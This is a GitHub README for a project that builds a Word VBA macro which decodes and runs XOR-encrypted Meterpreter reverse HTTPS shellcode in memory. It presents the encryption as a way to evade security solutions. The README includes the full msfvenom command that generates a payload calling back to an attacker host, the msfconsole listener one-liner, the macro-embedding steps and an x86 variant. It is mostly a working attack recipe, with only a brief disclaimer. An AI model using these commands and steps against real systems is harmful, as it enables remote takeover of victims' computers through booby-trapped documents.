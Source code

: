 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https SessionExpirationTimeout=0 SessionCommunicationTimeout=0 LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; set SessionExpirationTimeout 0; set SessionCommunicationTimeout 0; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

![Captura de pantalla 2025-03-10 a la(s) 15 33 29](https://github.com/user-attachments/assets/7d719c6c-9e80-4f9e-8669-437b5c495510)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

